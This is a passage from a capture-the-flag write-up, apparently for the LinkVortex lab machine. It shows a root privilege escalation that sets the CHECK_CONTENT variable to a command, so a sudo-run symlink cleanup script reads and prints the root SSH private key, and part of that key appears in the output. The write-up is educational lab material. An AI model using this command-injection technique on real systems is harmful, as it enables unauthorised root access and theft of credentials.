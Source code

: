 ```bash
    /usr/bin/mv $LINK $QUAR_DIR/
    if $CHECK_CONTENT;then
      /usr/bin/echo "Content:"
      /usr/bin/cat $QUAR_DIR/$LINK_NAME 2>/dev/null
    fi
  fi
```
We can abuse this by setting `CHECK_CONTENT` as a command. For the purposes of demonstration I'll just be viewing the ssh key again.
```bash
bob@linkvortex:~$ ln -s /home/bob/user.txt w1ld.png
bob@linkvortex:~$ CHECK_CONTENT="cat /root/.ssh/id_rsa" sudo /usr/bin/bash /opt/ghost/clean_symlink.sh *.png
/opt/ghost/clean_symlink.sh: line 5: [: cat: binary operator expected
Link found [ w1ld.png ] , moving it to quarantine
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAmpHVhV11MW7eGt9WeJ23rVuqlWnMpF+FclWYwp4SACcAilZdOF8T
q2egYfeMmgI9IoM0DdyDKS4vG+lIoWoJEfZf+cVwaZIzTZwKm7ECbF2Oy+u2SD+X7lG9A6
V1xkmWhQWEvCiI22UjIoFkI0oOfDrm6ZQTyZF99AqBVcwGCjEA67eEKt/5oejN5YgL7Ipu
```
As we can see it executes the command and we can once again ssh as root.
## Intended Root
I was unable to find the intended root until the retirement of the box when I read [0xdf's Writeup](https://0xdf.gitlab.io/2025/04/12/htb-linkvortex.html#)
Apparently the intended route is to fight the race condition and swap the link over to something useful. 0xdf goes over this in detail [here](https://0xdf.gitlab.io/2025/04/12/htb-linkvortex.html#exploit-clean_symlinksh).